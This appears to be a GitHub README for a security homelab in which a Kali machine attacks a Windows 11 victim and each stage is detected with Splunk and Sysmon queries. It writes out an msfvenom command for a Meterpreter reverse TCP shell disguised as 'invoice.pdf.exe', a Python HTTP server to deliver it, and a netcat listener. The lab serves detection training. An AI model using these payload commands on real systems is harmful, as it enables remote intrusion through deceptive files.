# SOC Homelab — Attack Simulation & Detection (Splunk + Sysmon)

> **Part 2 of the SOC Homelab series.**  
> For environment setup (VirtualBox, Windows 11, Kali Linux, Sysmon, Splunk), see 👉 [soc-homelab-setup](https://github.com/ericnam-png/soc-homelab-setup)

This project simulates a realistic attack chain — from initial access through malware execution — and demonstrates how each stage is detected and investigated in Splunk.

---

## Architecture

| Role | Machine |
|---|---|
| Attacker | Kali Linux |
| Victim | Windows 11 (Sysmon + Splunk Enterprise) |
---

## Attack & Detection Workflow

### 1. User Creation
A new local user account is created on the Windows victim machine to simulate failed login log on splunk.

- **Tool:** `net user`
<p>
  
</p>

- **Detection:** Splunk query on Event ID `4720` (A user account was created)
<p>
  
  
</p>

```spl
index=* EventCode=4720
```

---

### 2. Failed Login Attempts (Brute-Force Simulation)
Multiple failed authentication attempts are made against the Windows machine from Kali Linux to simulate a brute-force attack.

- **Tool:** manual RDP login attempts
<p>
  
</p>

- **Detection:** Splunk query on Event ID `4625` (An account failed to log on)

<p>
  
</p>

```spl
index=* EventCode=4625
```

---

### 3. Detection in Splunk (Authentication Events)
Review and triage the authentication alerts generated from steps 1 and 2.

- Correlate `4720` (account creation) with `4625` (failed logins) to identify suspicious sequences
- Would be great to build a simple alert rule for accounts with >5 failed logins within a short window

<p>
  
</p>

```spl
index=* EventCode=4625 earliest=-15m
```

---

### 4. Malware Creation
A reverse shell payload is generated on the Kali attacker machine using `msfvenom`.

- **Tool:** `msfvenom`
- **Payload:** Windows reverse TCP shell (`windows/x64/meterpreter_reverse_tcp`)

<p>
  
</p>

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp \
  LHOST=<KALI_IP> LPORT=4444 \
  -f exe -o invoice.pdf.exe
```

**For educational use only.** 

---

### 5. Serving the Payload (HTTP Server on Port 9999)
The malware binary is hosted on the Kali machine using Python's built-in HTTP server so the victim can download it.
<p>
  
</p>

```bash
python3 -m http.server 9999
```
---

### 6. Executing the Payload on the Victim Machine
The payload is executed on the Windows victim machine, establishing a reverse shell back to Kali.

On Kali — set up the listener first:

```bash
nc -lvnp 4444
```

On the victim (PowerShell or CMD):

```cmd
C:\Users\ericn\Downloads\invoice.pdf.exe
```

A reverse shell session is now active on the attacker machine.

<p>
  
  
  
</p>

---

### 7. Detecting Malware Execution in Splunk
Sysmon captures the process creation, network connection, and file events triggered by the payload. These are forwarded to Splunk for analysis.

**Detect suspicious process creation (Sysmon Event ID 1):**
```spl
index=* EventCode=1
| search CommandLine="*invoice.pdf.exe" OR ParentImage="*powershell.exe"
| table _time, Image, ParentImage, CommandLine
```

**Detect outbound network connections (Sysmon Event ID 3):**
```spl
index=* source="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3
| search DestinationPort=4444
| table _time, host, Image, DestinationIp, DestinationPort, User
```

**Detect file creation events (Sysmon Event ID 11):**
```spl
index=* source="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=11
| search TargetFilename="*malware.exe"
| table _time, host, TargetFilename, Image
```
<p>
  
  
</p>

---

## Attack Chain Summary

```
[Kali] Create payload (msfvenom)
    ↓
[Kali] Serve payload on port 9999 (python3 http.server)
    ↓
[Windows] Download payload (Invoke-WebRequest)
    ↓
[Windows] Execute payload → reverse shell to Kali
    ↓
[Splunk] Alert on: user creation → brute-force → process exec → C2 connection
```

---

## Key Splunk Event IDs Reference

| Event ID | Source | Description |
|---|---|---|
| 4720 | Windows Security | User account created |
| 4625 | Windows Security | Failed logon attempt |
| 1 | Sysmon | Process creation |
| 3 | Sysmon | Network connection |
| 11 | Sysmon | File created |

---

## Prerequisites

- Completed lab setup from [soc-homelab-setup](https://github.com/ericnam-png/soc-homelab-setup)
- Sysmon running on Windows 11 with logging configured
- Splunk ingesting Windows Security and Sysmon logs
- Kali Linux with `msfvenom` and `python3` available

---

## Legal Disclaimer

This project is strictly for educational purposes in an isolated, self-owned lab environment.

---

## Reference

- [soc-homelab-setup (Part 1)](https://github.com/ericnam-png/soc-homelab-setup)
- [MyDFIR YouTube Channel](https://www.youtube.com/@MyDFIR)
- [Sysmon Event ID Reference](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
- [Try Hack Me Splunk Search Reference](https://tryhackme.com/room/splunk101)
